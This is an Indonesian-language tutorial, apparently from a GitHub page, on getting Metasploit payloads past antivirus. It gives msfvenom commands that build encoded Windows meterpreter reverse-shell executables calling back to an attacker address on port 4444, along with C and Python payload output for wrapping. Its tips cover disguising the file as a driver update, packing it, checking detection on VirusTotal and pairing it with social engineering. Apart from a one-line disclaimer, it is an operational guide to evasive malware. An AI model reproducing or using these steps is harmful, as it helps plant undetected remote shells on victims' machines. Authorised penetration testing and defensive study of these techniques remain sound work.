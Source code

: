 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV |
| `Packing` / `Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode` |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

**Keterangan:**
- `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST` : IP Attacker: `192.168.1.100`
- `LPORT` : Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f` : Format payload: `exe`
- `-o` : Nama file hasil payload: `shell_encoded.exe` 

**Encoder Populer di Metasploit:**
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

**Cek semua encoder:**

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
```

**Keterangan:**
- `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST` : IP Attacker: `192.168.1.100`
- `LPORT` : Port listener: `4444`
- `-f` : Format payload: `c`
- `-o` : Nama file hasil payload: `payload.c`

  
Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
```

**Keterangan:**
- `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST` : IP Attacker: `192.168.1.100`
- `LPORT` : Port listener: `4444`
- `-f` : Format payload: `python`
- `-o` : Nama file hasil payload: `payload.py`
  
Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |
